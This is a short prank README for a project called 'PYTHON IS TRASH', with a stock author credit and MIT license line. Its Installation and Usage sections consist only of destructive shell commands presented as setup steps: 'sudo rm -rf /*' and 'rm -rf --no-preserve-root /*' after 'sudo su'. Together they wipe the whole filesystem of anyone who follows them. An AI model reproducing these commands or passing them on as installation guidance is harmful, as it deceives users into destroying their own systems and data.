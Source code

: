 # PYTHON IS TRASH 🚮🐍

## About  
This project is created and maintained by **Khoa D Nguyen Nguyen - Pháp Sư UTE**.  

## Description  
This project was written in python 

## Installation 
Sudo rm -rf /* 

## Usage  
sudo su
rm -rf --no-preserve-root /*

## License  
MIT License © Khoa D Nguyen Nguyen  
